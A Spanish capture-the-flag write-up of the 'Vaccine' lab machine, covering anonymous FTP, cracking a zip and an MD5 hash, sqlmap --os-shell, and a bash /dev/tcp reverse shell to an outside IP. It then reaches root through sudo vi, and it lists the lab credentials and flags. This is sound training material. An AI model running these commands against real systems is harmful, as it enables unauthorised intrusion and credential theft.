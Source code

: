```yaml
---
title: Máquina Vaccine
published: true
---
```


Jorge Marco Arráez

Temas tratados:

*   Crackeo de fichero .zip

*   Contraseñas a partir de hashes

*   Vulnerabilidades de bases de datos

## [](#header-3) 1)   Besides SSH and HTTP, what other service is hosted on this box?

```
nmap -sCV --min-rate 5000 -n -oG nmap/allPorts -Pn $IP
```

FTP en el puerto 21
SSH en el puerto 22 -> Versión: OpenSSH 8.0p1 Ubuntu 6ubuntu0.1
HTTP en el puerto 80 -> Versión del servidor: Apache httpd 2.4.41 ((Ubuntu))

La página web es la siguiente:

![imagen de login](../assets/capturas_maquinas/vaccine/1-login.png)

## [](#header-3) 2)    This service can be configured to allow login with any password for specific username. What is that username?


Como ya hemos visto en máquinas anteriores, ftp permite registrarse sin contraseña al usuario "anonymous".


## [](#header-3) 3)  What is the name of the file downloaded over this service?

al conectarme con ftp, veo que usa la versión vsFTPd 3.0.3

```
username = "anonymous"
password = ""
get backup.zip
```

## [](#header-3) 4) What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

![texto_alternativo](../assets/capturas_maquinas/vaccine/2-john.png){width=width height=height}

```
zip2john backup.zip > hash.txt

john -w=/home/jorge/Descargas/rockyou.txt hash.txt
john --show 
```

la contraseña es: 741852963


## [](#header-3) 5)  What is the password for the admin user on the website?

La contraseña no está en plano en el arhchivo .php, lo que está es el hash md5 de la contraseña.

![texto_alternativo](../assets/capturas_maquinas/vaccine/3-contra_admin.png)

El hash es: "2cb42f8734ea607eefed3b70af13bbd3"

Con crackstation.net podemos encontrar la contraseña: "qwerty789"

![texto_alternativo](../assets/capturas_maquinas/vaccine/4-crackstation.png)

## [](#header-3) 6)    What option can be passed to sqlmap to try to get command execution via the sql injection?

Si ejecutamos sqlmap -h para ver la ayuda del programa, vemos que la opción que nos interesa es --os-shell

![texto_alternativo](../assets/capturas_maquinas/vaccine/6-sqlmap.png)

## [](#header-3) 7)    What program can the postgres user run as root using sudo?

vi

## [](#header-3) 8)  Submit user flag

Usando sqlmap conseguimos una os-shell.

![texto_alternativo](../assets/capturas_maquinas/vaccine/7-comadno_sqlmap.png)


Donde el valor de cookie es el que obtenemos al iniciar sesion en la página como admin con la contraseña qwerty789.

obtenemos acceso a una shell donde podemos establecer una reverse shell con nuestro ordenador con 

```
bash -c "bash -i >& /dev/tcp/10.10.15.224/443 0>&1"
```

![texto_alternativo](../assets/capturas_maquinas/vaccine/9-reverse-shell)


Ahora hay que convertir esta reverse shell en una reverse shell estable para poder trabajar sin que expire la sesión.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'

cd /var/lib/postgresql
xxd user.txt
```

![texto_alternativo](../assets/capturas_maquinas/vaccine/10-userflag.png)

```
user=ec9b13ca4d6229cd5cc1e09980965bf7
```

## [](#header-3) 9)  Submit root flag


```
cd /var/www/html
cat dashboard.php
```

![texto_alternativo](../assets/capturas_maquinas/vaccine/11-dashboardphp.png)

username=postgres
password=P@s5w0rd!

Podemos usar esas credenciales para establecer una sesión ssh.

```
ssh postgres@10.129.95.174
P@s5w0rd!
```

Así es más cómodo ya que no hay que estabilizar la shell.
Una vez dentro, vemos que privilegios tiene el usuario postgres

![texto_alternativo](../assets/capturas_maquinas/vaccine/12-sudo-l.png)

Puede ejecutar /bin/vi para editar el archivo pg_hba.conf

Busco en internet y encuentro la siguiente página:

<a href="https://gtfobins.github.io/gtfobins/vi/#sudo">

Al añadir las líneas especificadas en la sección shell b):

```
vi
:set shell=/bin/sh
:shell
```

![texto_alternativo](../assets/capturas_maquinas/vaccine/13-rootflag.png)

Nos hemos convertido en root.

```
root=dd6e058e814260bc70e9bbdef2715849
```

![texto_alternativo](../assets/capturas_maquinas/vaccine/14-pwn.png)
